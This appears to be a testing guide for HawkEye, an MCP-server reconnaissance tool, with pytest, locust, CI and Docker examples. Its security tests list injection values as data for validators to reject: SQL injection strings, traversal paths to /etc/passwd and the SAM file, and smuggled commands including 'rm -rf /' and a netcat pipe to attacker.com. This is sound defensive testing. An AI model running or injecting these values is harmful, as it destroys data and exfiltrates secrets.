

# Testing and Quality Assurance Guidelines

## 🧪 Executive Summary

HawkEye implements a comprehensive testing strategy that encompasses unit testing, integration testing, performance testing, security testing, and compatibility testing. This document outlines the testing frameworks, quality assurance processes, and best practices that ensure the reliability, security, and maintainability of the HawkEye security reconnaissance tool.

## Testing Architecture Overview

### 1. Testing Pyramid Structure

**Multi-Layer Testing Strategy**:


### 2. Testing Framework Stack

**Core Testing Technologies**:

| Test Type | Framework | Purpose | Coverage Target |
|-----------|-----------|---------|-----------------|
| **Unit Tests** | pytest | Function/class validation | 90%+ |
| **Integration Tests** | pytest + testcontainers | Component interaction | 80%+ |
| **Performance Tests** | pytest-benchmark | Performance regression | Key workflows |
| **Security Tests** | pytest + custom fixtures | Security validation | Critical paths |
| **Load Tests** | locust | Scalability testing | Production scenarios |
| **Compatibility Tests** | pytest + tox | Cross-version support | All supported versions |

## Unit Testing Framework

### 1. Core Testing Infrastructure

**Base Test Classes**:
```python
import unittest
import pytest
from unittest.mock import Mock, patch, MagicMock
from pathlib import Path
from datetime import datetime, timedelta
from typing import Dict, List, Any, Optional

from hawkeye.config.settings import get_settings
from hawkeye.utils.logging import get_logger
from hawkeye.models import MCPServerInfo, DetectionResult, Assessment

class HawkEyeTestCase(unittest.TestCase):
    """Base test case class for HawkEye tests."""
    
    def setUp(self):
        """Set up test environment."""
        # Configure test settings
        self.test_settings = self._create_test_settings()
        
        # Set up test logging
        self.logger = get_logger(f"test.{self.__class__.__name__}")
        
        # Create test data directory
        self.test_data_dir = Path(__file__).parent / "test_data"
        self.test_data_dir.mkdir(exist_ok=True)
        
        # Initialize test fixtures
        self.mock_servers = []
        self.test_files = []
    
    def tearDown(self):
        """Clean up test environment."""
        # Stop any running mock servers
        for server in self.mock_servers:
            if hasattr(server, 'stop'):
                server.stop()
        
        # Clean up test files
        for file_path in self.test_files:
            if Path(file_path).exists():
                Path(file_path).unlink()
    
    def _create_test_settings(self):
        """Create test-specific settings."""
        return Mock(spec=[
            'scan_timeout', 'scan_max_threads', 'detection_confidence_threshold',
            'mcp_timeout', 'mcp_max_retries', 'enable_ai_analysis',
            'log_level', 'debug_mode'
        ])
    
    def create_mock_mcp_server(self, **kwargs) -> MCPServerInfo:
        """Create a mock MCP server for testing."""
        
        defaults = {
            'host': '127.0.0.1',
            'port': 8080,
            'process_id': 12345,
            'command_line': 'node mcp-server.js',
            'transport_type': 'stdio',
            'capabilities': [],
            'tools': [],
            'resources': [],
            'confidence': 0.8,
            'metadata': {}
        }
        
        defaults.update(kwargs)
        return MCPServerInfo(**defaults)
    
    def create_mock_detection_result(self, **kwargs) -> DetectionResult:
        """Create a mock detection result for testing."""
        
        defaults = {
            'method': 'test_method',
            'target_host': '127.0.0.1',
            'success': True,
            'servers': [self.create_mock_mcp_server()],
            'error_message': None,
            'detection_time': 1.5,
            'confidence': 0.8
        }
        
        defaults.update(kwargs)
        return DetectionResult(**defaults)
```

### 2. Unit Test Examples

**Scanner Module Tests**:
```python
class TestTCPScanner(HawkEyeTestCase):
    """Unit tests for TCP scanner functionality."""
    
    def setUp(self):
        """Set up TCP scanner tests."""
        super().setUp()
        
        from hawkeye.scanner.tcp_scanner import TCPScanner
        self.scanner = TCPScanner(settings=self.test_settings)
    
    def test_scanner_initialization(self):
        """Test TCP scanner initializes correctly."""
        
        self.assertIsNotNone(self.scanner)
        self.assertEqual(self.scanner.max_threads, 10)  # Default value
        self.assertEqual(self.scanner.timeout, 30)      # Default value
    
    def test_port_scanning_success(self):
        """Test successful port scanning."""
        
        # Mock socket connection
        with patch('socket.socket') as mock_socket:
            mock_socket.return_value.__enter__.return_value.connect.return_value = None
            
            result = self.scanner.scan_port('127.0.0.1', 80)
            
            self.assertTrue(result.is_open)
            self.assertEqual(result.host, '127.0.0.1')
            self.assertEqual(result.port, 80)
    
    def test_port_scanning_failure(self):
        """Test port scanning failure handling."""
        
        # Mock socket connection failure
        with patch('socket.socket') as mock_socket:
            mock_socket.return_value.__enter__.return_value.connect.side_effect = ConnectionRefusedError()
            
            result = self.scanner.scan_port('127.0.0.1', 8080)
            
            self.assertFalse(result.is_open)
            self.assertIsNotNone(result.error_message)
    
    def test_cidr_range_expansion(self):
        """Test CIDR range expansion."""
        
        targets = self.scanner.expand_cidr_range('192.168.1.0/30')
        
        expected_targets = ['192.168.1.0', '192.168.1.1', '192.168.1.2', '192.168.1.3']
        self.assertEqual(targets, expected_targets)
    
    def test_concurrent_scanning(self):
        """Test concurrent port scanning."""
        
        with patch.object(self.scanner, 'scan_port') as mock_scan:
            mock_scan.return_value = Mock(is_open=True)
            
            results = self.scanner.scan_range('127.0.0.1', [80, 443, 8080])
            
            self.assertEqual(len(results), 3)
            self.assertEqual(mock_scan.call_count, 3)
```

**Detection Module Tests**:
```python
class TestMCPDetection(HawkEyeTestCase):
    """Unit tests for MCP detection functionality."""
    
    def setUp(self):
        """Set up MCP detection tests."""
        super().setUp()
        
        from hawkeye.detection.process_enum import ProcessEnumerator
        self.detector = ProcessEnumerator(settings=self.test_settings)
    
    def test_process_enumeration(self):
        """Test process enumeration for Node.js processes."""
        
        # Mock psutil process list
        mock_processes = [
            Mock(pid=1234, name='node', cmdline=['node', 'mcp-server.js', '--port', '8080']),
            Mock(pid=5678, name='python', cmdline=['python', 'app.py']),
            Mock(pid=9012, name='node', cmdline=['node', '--version'])
        ]
        
        with patch('psutil.process_iter', return_value=mock_processes):
            result = self.detector.detect('localhost')
            
            self.assertTrue(result.success)
            self.assertEqual(len(result.servers), 1)
            self.assertEqual(result.servers[0].process_id, 1234)
            self.assertIn('--port', result.servers[0].command_line)
    
    def test_mcp_pattern_matching(self):
        """Test MCP server pattern recognition."""
        
        test_commands = [
            'node mcp-server.js',
            'npx @anthropic-ai/mcp-server',
            'node dist/index.js --mcp-port 8080',
            'python non-mcp-app.py'
        ]
        
        for cmd in test_commands[:3]:  # First 3 should match
            self.assertTrue(self.detector._is_mcp_process(cmd.split()))
        
        # Last one should not match
        self.assertFalse(self.detector._is_mcp_process(test_commands[3].split()))
    
    def test_error_handling(self):
        """Test error handling in process enumeration."""
        
        with patch('psutil.process_iter', side_effect=OSError("Permission denied")):
            result = self.detector.detect('localhost')
            
            self.assertFalse(result.success)
            self.assertIsNotNone(result.error_message)
            self.assertIn("Permission denied", result.error_message)
```

## Integration Testing Framework

### 1. Component Integration Tests

**Pipeline Integration Tests**:
```python
class TestDetectionPipeline(HawkEyeTestCase):
    """Integration tests for detection pipeline."""
    
    def setUp(self):
        """Set up pipeline integration tests."""
        super().setUp()
        
        from hawkeye.detection.pipeline import DetectionPipeline, PipelineConfig
        
        self.config = PipelineConfig(
            enable_process_enumeration=True,
            enable_config_discovery=True,
            enable_protocol_verification=False,  # Skip for faster tests
            parallel_detection=False
        )
        
        self.pipeline = DetectionPipeline(config=self.config, settings=self.test_settings)
    
    def test_pipeline_execution(self):
        """Test full pipeline execution."""
        
        # Mock detection results from components
        with patch.multiple(
            'hawkeye.detection.process_enum.ProcessEnumerator',
            detect=Mock(return_value=self.create_mock_detection_result())
        ), patch.multiple(
            'hawkeye.detection.config_discovery.ConfigFileDiscovery',
            detect=Mock(return_value=self.create_mock_detection_result())
        ):
            result = self.pipeline.execute_pipeline('127.0.0.1')
            
            self.assertTrue(result.success)
            self.assertGreater(len(result.detection_results), 0)
            self.assertGreater(len(result.discovered_servers), 0)
    
    def test_pipeline_error_recovery(self):
        """Test pipeline error recovery mechanisms."""
        
        # Mock one detector failing
        with patch.multiple(
            'hawkeye.detection.process_enum.ProcessEnumerator',
            detect=Mock(side_effect=Exception("Detection failed"))
        ), patch.multiple(
            'hawkeye.detection.config_discovery.ConfigFileDiscovery',
            detect=Mock(return_value=self.create_mock_detection_result())
        ):
            result = self.pipeline.execute_pipeline('127.0.0.1')
            
            # Pipeline should continue despite one failure
            self.assertTrue(result.success)
            self.assertGreater(len(result.warnings), 0)
    
    def test_pipeline_result_aggregation(self):
        """Test result aggregation from multiple detectors."""
        
        # Create different mock results
        process_result = self.create_mock_detection_result(
            method='process_enumeration',
            servers=[self.create_mock_mcp_server(port=8080)]
        )
        
        config_result = self.create_mock_detection_result(
            method='config_discovery',
            servers=[self.create_mock_mcp_server(port=8081)]
        )
        
        with patch.multiple(
            'hawkeye.detection.process_enum.ProcessEnumerator',
            detect=Mock(return_value=process_result)
        ), patch.multiple(
            'hawkeye.detection.config_discovery.ConfigFileDiscovery',
            detect=Mock(return_value=config_result)
        ):
            result = self.pipeline.execute_pipeline('127.0.0.1')
            
            # Should aggregate servers from both detectors
            self.assertEqual(len(result.discovered_servers), 2)
            ports = [server.port for server in result.discovered_servers]
            self.assertIn(8080, ports)
            self.assertIn(8081, ports)
```

### 2. Real System Integration Tests

**MCP Server Integration Tests**:
```python
class TestRealMCPServerIntegration(HawkEyeTestCase):
    """Integration tests with real MCP servers."""
    
    def setUp(self):
        """Set up real MCP server tests."""
        super().setUp()
        
        # Start test MCP servers
        self.test_servers = self._start_test_servers()
        
        from hawkeye.detection.mcp_introspection import MCPIntrospector
        self.introspector = MCPIntrospector()
    
    def tearDown(self):
        """Clean up test servers."""
        for server in self.test_servers:
            server.terminate()
        super().tearDown()
    
    def _start_test_servers(self) -> List[subprocess.Popen]:
        """Start test MCP servers for integration testing."""
        
        servers = []
        
        # Start basic MCP server
        basic_server = subprocess.Popen([
            'node', 'test_data/basic_mcp_server.js', '--port', '8080'
        ])
        servers.append(basic_server)
        
        # Start filesystem MCP server
        fs_server = subprocess.Popen([
            'npx', '@anthropic-ai/mcp-server-filesystem',
            '--port', '8081'
        ])
        servers.append(fs_server)
        
        # Wait for servers to start
        time.sleep(2)
        
        return servers
    
    def test_mcp_introspection_basic_server(self):
        """Test introspection of basic MCP server."""
        
        server_info = MCPServerInfo(
            host='127.0.0.1',
            port=8080,
            transport_type='stdio'
        )
        
        result = self.introspector.introspect_server(server_info)
        
        self.assertTrue(result.success)
        self.assertIsNotNone(result.capabilities)
        self.assertGreater(len(result.tools), 0)
    
    def test_mcp_introspection_filesystem_server(self):
        """Test introspection of filesystem MCP server."""
        
        server_info = MCPServerInfo(
            host='127.0.0.1',
            port=8081,
            transport_type='stdio'
        )
        
        result = self.introspector.introspect_server(server_info)
        
        self.assertTrue(result.success)
        self.assertIn('filesystem', [tool.name for tool in result.tools])
    
    @pytest.mark.slow
    def test_concurrent_introspection(self):
        """Test concurrent introspection of multiple servers."""
        
        servers = [
            MCPServerInfo(host='127.0.0.1', port=8080, transport_type='stdio'),
            MCPServerInfo(host='127.0.0.1', port=8081, transport_type='stdio')
        ]
        
        results = []
        for server in servers:
            result = self.introspector.introspect_server(server)
            results.append(result)
        
        # All introspections should succeed
        for result in results:
            self.assertTrue(result.success)
```

## Performance Testing Framework

### 1. Performance Benchmarks

**Benchmark Test Implementation**:
```python
import pytest
import time
from unittest.mock import Mock, patch

class TestPerformanceBenchmarks:
    """Performance benchmark tests."""
    
    def setup_method(self):
        """Set up performance tests."""
        
        from hawkeye.scanner.tcp_scanner import TCPScanner
        from hawkeye.detection.pipeline import DetectionPipeline
        
        self.scanner = TCPScanner()
        self.pipeline = DetectionPipeline()
    
    @pytest.mark.benchmark(group="scanning")
    def test_tcp_scanning_performance(self, benchmark):
        """Benchmark TCP scanning performance."""
        
        def scan_ports():
            return self.scanner.scan_range('127.0.0.1', list(range(80, 90)))
        
        # Mock socket operations for consistent timing
        with patch('socket.socket'):
            result = benchmark(scan_ports)
            
        assert len(result) == 10
    
    @pytest.mark.benchmark(group="detection")
    def test_detection_pipeline_performance(self, benchmark):
        """Benchmark detection pipeline performance."""
        
        def run_pipeline():
            return self.pipeline.execute_pipeline('127.0.0.1')
        
        # Mock detectors for consistent performance
        with patch.object(self.pipeline, 'detectors', {}):
            result = benchmark(run_pipeline)
        
        assert result is not None
    
    @pytest.mark.slow
    def test_memory_usage_scanning(self):
        """Test memory usage during large scans."""
        
        import psutil
        import os
        
        process = psutil.Process(os.getpid())
        initial_memory = process.memory_info().rss
        
        # Perform large scan
        with patch('socket.socket'):
            self.scanner.scan_range('127.0.0.1', list(range(1, 1001)))
        
        final_memory = process.memory_info().rss
        memory_increase = final_memory - initial_memory
        
        # Memory increase should be reasonable (less than 50MB)
        assert memory_increase < 50 * 1024 * 1024
```

### 2. Load Testing

**Load Test Implementation**:
```python
from locust import HttpUser, task, between
import json

class HawkEyeLoadTest(HttpUser):
    """Load testing for HawkEye API endpoints."""
    
    wait_time = between(1, 3)
    
    def on_start(self):
        """Initialize load test user."""
        self.headers = {
            'Content-Type': 'application/json',
            'Authorization': 'Bearer test-token'
        }
    
    @task(3)
    def scan_endpoint(self):
        """Test scan endpoint under load."""
        
        payload = {
            'target': '192.168.1.0/24',
            'ports': [80, 443, 8080],
            'timeout': 30
        }
        
        response = self.client.post(
            '/api/v1/scan',
            headers=self.headers,
            json=payload
        )
        
        assert response.status_code == 200
        assert 'results' in response.json()
    
    @task(2)
    def detect_endpoint(self):
        """Test detect endpoint under load."""
        
        payload = {
            'target_host': '127.0.0.1',
            'methods': ['process_enumeration', 'config_discovery']
        }
        
        response = self.client.post(
            '/api/v1/detect',
            headers=self.headers,
            json=payload
        )
        
        assert response.status_code == 200
    
    @task(1)
    def report_endpoint(self):
        """Test report generation under load."""
        
        payload = {
            'scan_id': 'test-scan-123',
            'format': 'json'
        }
        
        response = self.client.post(
            '/api/v1/report',
            headers=self.headers,
            json=payload
        )
        
        assert response.status_code == 200
```

## Security Testing Framework

### 1. Security Test Implementation

**Security Validation Tests**:
```python
class TestSecurityValidation(HawkEyeTestCase):
    """Security testing for HawkEye components."""
    
    def test_input_validation_sql_injection(self):
        """Test SQL injection prevention."""
        
        from hawkeye.scanner.target_enum import TargetEnumerator
        
        malicious_inputs = [
            "'; DROP TABLE users; --",
            "1' OR '1'='1",
            "'; SELECT * FROM passwords; --"
        ]
        
        enumerator = TargetEnumerator()
        
        for malicious_input in malicious_inputs:
            with self.assertRaises(ValueError):
                enumerator.validate_target(malicious_input)
    
    def test_path_traversal_prevention(self):
        """Test path traversal attack prevention."""
        
        from hawkeye.reporting.html_reporter import HTMLReporter
        
        malicious_paths = [
            "../../../etc/passwd",
            "..\\..\\..\\windows\\system32\\config\\sam",
            "/etc/shadow",
            "C:\\windows\\system32\\config\\sam"
        ]
        
        reporter = HTMLReporter()
        
        for malicious_path in malicious_paths:
            with self.assertRaises(SecurityError):
                reporter.save_report("test content", malicious_path)
    
    def test_command_injection_prevention(self):
        """Test command injection prevention."""
        
        from hawkeye.detection.docker_inspect import DockerInspector
        
        malicious_commands = [
            "container_name; rm -rf /",
            "container_name && cat /etc/passwd",
            "container_name | nc attacker.com 1234"
        ]
        
        inspector = DockerInspector(settings=self.test_settings)
        
        for malicious_command in malicious_commands:
            with self.assertRaises(SecurityError):
                inspector.inspect_container(malicious_command)
    
    def test_credential_exposure_prevention(self):
        """Test credential exposure prevention in logs."""
        
        from hawkeye.utils.logging import sanitize_log_message
        
        sensitive_data = [
            "API_KEY=sk-1234567890abcdef",
            "password=secret123",
            "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9"
        ]
        
        for data in sensitive_data:
            sanitized = sanitize_log_message(data)
            
            # Should not contain sensitive values
            self.assertNotIn("sk-1234567890abcdef", sanitized)
            self.assertNotIn("secret123", sanitized)
            self.assertNotIn("eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9", sanitized)
            
            # Should contain masked indicators
            self.assertIn("***", sanitized)
```

### 2. Penetration Testing Simulation

**Simulated Attack Tests**:
```python
class TestPenetrationScenarios(HawkEyeTestCase):
    """Simulated penetration testing scenarios."""
    
    def test_malicious_mcp_server_response(self):
        """Test handling of malicious MCP server responses."""
        
        from hawkeye.detection.mcp_introspection import MCPIntrospector
        
        # Create mock malicious server
        malicious_responses = [
            {'error': {'code': -32603, 'message': '../../../etc/passwd'}},
            {'result': {'tools': [{'name': 'rm -rf /', 'description': 'Delete all files'}]}},
            {'result': {'capabilities': {'experimental': {'evil': True}}}}
        ]
        
        introspector = MCPIntrospector()
        
        for response in malicious_responses:
            with patch('requests.post', return_value=Mock(json=lambda: response)):
                server_info = self.create_mock_mcp_server()
                result = introspector.introspect_server(server_info)
                
                # Should handle malicious responses safely
                self.assertFalse('/etc/passwd' in str(result))
                self.assertFalse('rm -rf' in str(result))
    
    def test_resource_exhaustion_protection(self):
        """Test protection against resource exhaustion attacks."""
        
        from hawkeye.scanner.tcp_scanner import TCPScanner
        
        scanner = TCPScanner(settings=self.test_settings)
        
        # Try to scan excessive number of ports
        large_port_range = list(range(1, 100000))
        
        with self.assertRaises(ResourceLimitError):
            scanner.scan_range('127.0.0.1', large_port_range)
    
    def test_timing_attack_resistance(self):
        """Test resistance to timing attacks."""
        
        from hawkeye.assessment.auth_analysis import AuthenticationAnalyzer
        
        analyzer = AuthenticationAnalyzer(settings=self.test_settings)
        
        # Test consistent timing for valid/invalid credentials
        valid_config = {'username': 'admin', 'password': 'correct_password'}
        invalid_config = {'username': 'admin', 'password': 'wrong_password'}
        
        start_time = time.time()
        analyzer._validate_credentials(valid_config)
        valid_time = time.time() - start_time
        
        start_time = time.time()
        analyzer._validate_credentials(invalid_config)
        invalid_time = time.time() - start_time
        
        # Timing should be similar to prevent timing attacks
        self.assertLess(abs(valid_time - invalid_time), 0.1)
```

## Test Data Management

### 1. Test Fixtures and Mocks

**Mock MCP Server Implementation**:
```python
class MockMCPServer:
    """Mock MCP server for testing purposes."""
    
    def __init__(self, host: str = "127.0.0.1", port: int = 8080, 
                 server_type: str = "BASIC", **kwargs):
        self.host = host
        self.port = port
        self.server_type = server_type
        self.running = False
        
        # Configure server behavior based on type
        self.config = self._get_server_config(server_type, **kwargs)
        
        # Initialize server state
        self.tools = self.config.get('tools', [])
        self.resources = self.config.get('resources', [])
        self.capabilities = self.config.get('capabilities', {})
        
        # Simulation settings
        self.response_delay = kwargs.get('response_delay', 0.1)
        self.error_rate = kwargs.get('error_rate', 0.0)
        self.memory_leak_rate = kwargs.get('memory_leak_rate', 0)
    
    def _get_server_config(self, server_type: str, **kwargs) -> Dict[str, Any]:
        """Get configuration for different server types."""
        
        configs = {
            'BASIC': {
                'tools': [
                    {'name': 'echo', 'description': 'Echo input'},
                    {'name': 'ping', 'description': 'Ping host'}
                ],
                'resources': [
                    {'uri': 'test://resource1', 'name': 'Test Resource'}
                ],
                'capabilities': {
                    'logging': {},
                    'prompts': {'listChanged': True}
                }
            },
            'FILESYSTEM': {
                'tools': [
                    {'name': 'read_file', 'description': 'Read file contents'},
                    {'name': 'write_file', 'description': 'Write file contents'},
                    {'name': 'list_directory', 'description': 'List directory contents'}
                ],
                'resources': [
                    {'uri': 'file://test.txt', 'name': 'Test File'}
                ],
                'capabilities': {
                    'resources': {'subscribe': True, 'listChanged': True}
                }
            },
            'HIGH_RISK': {
                'tools': [
                    {'name': 'execute_command', 'description': 'Execute system command'},
                    {'name': 'access_network', 'description': 'Make network requests'},
                    {'name': 'modify_files', 'description': 'Modify system files'}
                ],
                'resources': [
                    {'uri': 'system://sensitive', 'name': 'Sensitive System Resource'}
                ],
                'capabilities': {
                    'experimental': {'dangerous': True}
                }
            }
        }
        
        return configs.get(server_type, configs['BASIC'])
    
    def start(self):
        """Start the mock server."""
        self.running = True
        # Simulate server startup
        time.sleep(0.1)
    
    def stop(self):
        """Stop the mock server."""
        self.running = False
    
    def handle_request(self, request: Dict[str, Any]) -> Dict[str, Any]:
        """Handle MCP protocol requests."""
        
        # Simulate response delay
        if self.response_delay > 0:
            time.sleep(self.response_delay)
        
        # Simulate errors
        if random.random() < self.error_rate:
            return {
                'error': {
                    'code': -32603,
                    'message': 'Simulated server error'
                }
            }
        
        method = request.get('method', '')
        
        if method == 'initialize':
            return self._handle_initialize(request)
        elif method == 'tools/list':
            return self._handle_tools_list(request)
        elif method == 'resources/list':
            return self._handle_resources_list(request)
        elif method == 'tools/call':
            return self._handle_tools_call(request)
        else:
            return {
                'error': {
                    'code': -32601,
                    'message': f'Method not found: {method}'
                }
            }
    
    def _handle_initialize(self, request: Dict[str, Any]) -> Dict[str, Any]:
        """Handle initialize request."""
        
        return {
            'result': {
                'protocolVersion': '2024-11-05',
                'capabilities': self.capabilities,
                'serverInfo': {
                    'name': f'Mock MCP Server ({self.server_type})',
                    'version': '1.0.0'
                }
            }
        }
    
    def _handle_tools_list(self, request: Dict[str, Any]) -> Dict[str, Any]:
        """Handle tools/list request."""
        
        return {
            'result': {
                'tools': self.tools
            }
        }
    
    def _handle_resources_list(self, request: Dict[str, Any]) -> Dict[str, Any]:
        """Handle resources/list request."""
        
        return {
            'result': {
                'resources': self.resources
            }
        }
```

### 2. Test Data Generation

**Automated Test Data Generator**:
```python
class TestDataGenerator:
    """Generate test data for various testing scenarios."""
    
    def __init__(self):
        self.faker = Faker()
    
    def generate_mcp_servers(self, count: int = 10) -> List[MCPServerInfo]:
        """Generate mock MCP server configurations."""
        
        servers = []
        
        for i in range(count):
            server = MCPServerInfo(
                host=self.faker.ipv4(),
                port=self.faker.random_int(min=8000, max=9000),
                process_id=self.faker.random_int(min=1000, max=99999),
                command_line=f"node mcp-server-{i}.js --port {8000 + i}",
                transport_type=self.faker.random_element(['stdio', 'http', 'websocket']),
                capabilities=self._generate_capabilities(),
                tools=self._generate_tools(),
                resources=self._generate_resources(),
                confidence=self.faker.random.uniform(0.5, 1.0),
                metadata={
                    'discovered_by': self.faker.random_element(['process_enum', 'config_discovery']),
                    'detection_time': self.faker.date_time().isoformat()
                }
            )
            
            servers.append(server)
        
        return servers
    
    def generate_scan_results(self, target_count: int = 5) -> List[Dict[str, Any]]:
        """Generate mock scan results."""
        
        results = []
        
        for _ in range(target_count):
            result = {
                'target': self.faker.ipv4(),
                'ports_scanned': self.faker.random_int(min=10, max=1000),
                'open_ports': self._generate_open_ports(),
                'scan_duration': self.faker.random.uniform(1.0, 30.0),
                'timestamp': self.faker.date_time().isoformat()
            }
            
            results.append(result)
        
        return results
    
    def _generate_capabilities(self) -> Dict[str, Any]:
        """Generate mock MCP capabilities."""
        
        return {
            'logging': {},
            'prompts': {'listChanged': self.faker.boolean()},
            'resources': {
                'subscribe': self.faker.boolean(),
                'listChanged': self.faker.boolean()
            },
            'tools': {
                'listChanged': self.faker.boolean()
            }
        }
    
    def _generate_tools(self) -> List[Dict[str, Any]]:
        """Generate mock MCP tools."""
        
        tool_names = ['read_file', 'write_file', 'execute_command', 'list_directory', 'search']
        num_tools = self.faker.random_int(min=1, max=5)
        
        tools = []
        for _ in range(num_tools):
            tool = {
                'name': self.faker.random_element(tool_names),
                'description': self.faker.sentence(),
                'inputSchema': {
                    'type': 'object',
                    'properties': {
                        'parameter': {'type': 'string'}
                    }
                }
            }
            tools.append(tool)
        
        return tools
```

## Continuous Integration and Testing

### 1. CI/CD Pipeline Configuration

**GitHub Actions Workflow**:
```yaml
# .github/workflows/test.yml
name: Test Suite

on:
  push:
    branches: [ main, develop ]
  pull_request:
    branches: [ main ]

jobs:
  test:
    runs-on: ubuntu-latest
    strategy:
      matrix:
        python-version: [3.8, 3.9, "3.10", "3.11"]
    
    steps:
    - uses: actions/checkout@v3
    
    - name: Set up Python ${{ matrix.python-version }}
      uses: actions/setup-python@v3
      with:
        python-version: ${{ matrix.python-version }}
    
    - name: Install dependencies
      run: |
        python -m pip install --upgrade pip
        pip install -r requirements.txt
        pip install -r requirements-test.txt
    
    - name: Run unit tests
      run: |
        pytest tests/test_* -v --cov=hawkeye --cov-report=xml
    
    - name: Run integration tests
      run: |
        pytest tests/integration/ -v --slow
    
    - name: Run security tests
      run: |
        pytest tests/security/ -v
        bandit -r src/hawkeye/
    
    - name: Upload coverage reports
      uses: codecov/codecov-action@v3
      with:
        file: ./coverage.xml
        fail_ci_if_error: true
```

### 2. Quality Gates and Metrics

**Quality Assurance Thresholds**:

| Metric | Threshold | Purpose |
|--------|-----------|---------|
| **Unit Test Coverage** | 90% | Ensure comprehensive testing |
| **Integration Test Coverage** | 80% | Validate component interaction |
| **Performance Regression** | <10% degradation | Maintain performance standards |
| **Security Test Pass Rate** | 100% | Ensure security requirements met |
| **Code Quality Score** | A-grade | Maintain code quality standards |

## Test Environment Management

### 1. Test Environment Setup

**Docker Test Environment**:
```dockerfile
# Dockerfile.test
FROM python:3.9-slim

# Install system dependencies
RUN apt-get update && apt-get install -y \
    nodejs \
    npm \
    docker.io \
    && rm -rf /var/lib/apt/lists/*

# Install Node.js dependencies for MCP servers
RUN npm install -g @anthropic-ai/mcp-server-filesystem

# Set up Python environment
WORKDIR /app
COPY requirements.txt requirements-test.txt ./
RUN pip install -r requirements.txt -r requirements-test.txt

# Copy application code
COPY . .

# Run tests
CMD ["pytest", "tests/", "-v", "--cov=hawkeye"]
```

### 2. Test Data Management

**Test Database Setup**:
```python
class TestDatabaseManager:
    """Manage test databases and data fixtures."""
    
    def __init__(self):
        self.test_db_path = "test_data/hawkeye_test.db"
        self.fixtures_path = "test_data/fixtures/"
    
    def setup_test_database(self):
        """Set up test database with fixtures."""
        
        # Create test database
        self._create_test_tables()
        
        # Load test fixtures
        self._load_test_fixtures()
    
    def teardown_test_database(self):
        """Clean up test database."""
        
        if Path(self.test_db_path).exists():
            Path(self.test_db_path).unlink()
    
    def _create_test_tables(self):
        """Create test database tables."""
        # Database schema creation logic
        pass
    
    def _load_test_fixtures(self):
        """Load test data fixtures."""
        # Load predefined test data
        pass
```

## Conclusion

HawkEye's comprehensive testing strategy ensures high quality, reliability, and security through multiple layers of validation. The combination of unit tests, integration tests, performance tests, and security tests provides confidence in the system's behavior under various conditions.

The automated testing pipeline, quality gates, and continuous monitoring ensure that code quality remains high throughout the development lifecycle, while the extensive test data management and mock infrastructure enable thorough testing of complex security scenarios.

This testing framework serves as the foundation for maintaining HawkEye's reputation as a reliable and secure reconnaissance tool for security professionals. 